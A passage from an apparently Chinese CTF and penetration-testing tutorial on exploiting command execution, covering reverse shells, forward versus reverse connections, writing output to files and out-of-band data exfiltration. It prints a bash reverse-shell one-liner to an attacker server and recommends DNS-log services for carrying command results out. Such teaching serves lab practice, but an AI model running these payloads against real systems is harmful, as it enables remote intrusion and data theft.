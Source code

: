 ![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831397120-a637b24a-b3e1-4518-acd6-a215b1f69d35.png)

可以发现反弹shell成功，此时可执行任意系统命令

**3.写shell文件后执行**

```
创建shell.sh
bash -c "bash -i >& /dev/tcp/服务器ip/端口 0>&1"
将上述bash反弹命令写入文件，详见1.2.3节中的echo用法
./shell.sh
利用.执行shell.sh反弹shell
```

**正向连接与反向连接简介**

借用迪总一张图

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831398190-05e8dd5b-30d7-4887-8889-8df5d452decb.png)

PC1、PC2、PC3为我们的目标机器，此时不难发现三台靶机都处于内网环境

正向连接：攻击机主动连接靶机

反向连接：靶机主动连接攻击机

准则：谁被动，谁监听

在上述环境中，有且仅有**可访问路由**、**linux外网服务器**、**windows服务器**这三个ip是可访问的，而我们的三台PC靶机此时处于内网环境，相当于我们的个人PC电脑，此时是无法访问的，我们的外网服务器最多只可致**可访问路由**处，即攻击机无法主动连接到靶机，所以此时就无法正向连接。由于我们外网服务器皆为**公网服务器**，所以三台PC靶机是可以访问到服务器的，即可以进行反向连接，让靶机主动连接攻击机，也就是我上面演示的bash反弹的操作。

##### 数据写出

将命令的执行结果写入其他文件，再访问其他文件获取执行结果，下以1.txt为例

```
利用cp命令：cp flag.php 1.txt

利用mv命令：mv flag.php 1.txt

利用>输出结果到文件：ls > 1.txt

利用tee命令：ls | tee 1.txt    

利用script命令：ls | script 1.txt
```

##### 数据外带

在题目环境出网的条件下，我们可以通过数据外带将命令执行的结果外带出来，此处推荐两个外带网址：

1.[http://dnslog.cn](http://dnslog.cn/)

2.[http://ceye.io/（推荐，更稳定](http://ceye.io/%EF%BC%88%E6%8E%A8%E8%8D%90%EF%BC%8C%E6%9B%B4%E7%A8%B3%E5%AE%9A)）

linux的数据外带归功于其反引号可执行任意系统命令这一特殊机制
